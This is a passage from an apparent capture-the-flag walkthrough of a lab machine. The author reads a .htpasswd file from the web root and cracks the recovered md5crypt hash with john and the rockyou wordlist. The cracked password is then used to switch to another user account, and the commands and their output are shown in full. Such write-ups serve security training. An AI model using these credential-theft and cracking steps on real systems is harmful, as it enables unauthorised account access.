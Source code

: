 ### James' password

Now if we list all the files in the active directory, we'll see a file named `.htpasswd`, which contains a password hash for user ` james`:

~~~
www-data@osboxes:/var/www/html$ ls -la
total 72
drwxr-xr-x 6 www-data www-data  4096 Nov  4 11:16 .
drwxr-xr-x 3 root     root      4096 Mar  9  2021 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9  2021 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9  2021 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9  2021 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9  2021 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 less
-rw-r--r-- 1 www-data www-data   708 Nov  4 11:17 message.txt
-rw-r--r-- 1 www-data www-data  2339 Mar  9  2021 readme.md
-rw-r--r-- 1 www-data www-data   194 Nov  4 11:17 shell.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9  2021 style.css
www-data@osboxes:/var/www/html$ cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
~~~

Let's save the hash and crack it using `john` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt james.hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (james)
1g 0:00:00:00 DONE (2021-11-04 11:28) 50.00g/s 38400p/s 38400c/s 38400C/s jeffrey..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

James' password: `jamaica`

Now we can switch to user `james`:

~~~
www-data@osboxes:/var/www/html$ su james
Password: jamaica
james@osboxes:/var/www/html$ id
uid=1001(james) gid=1001(james) groups=1001(james)
~~~

### User flag
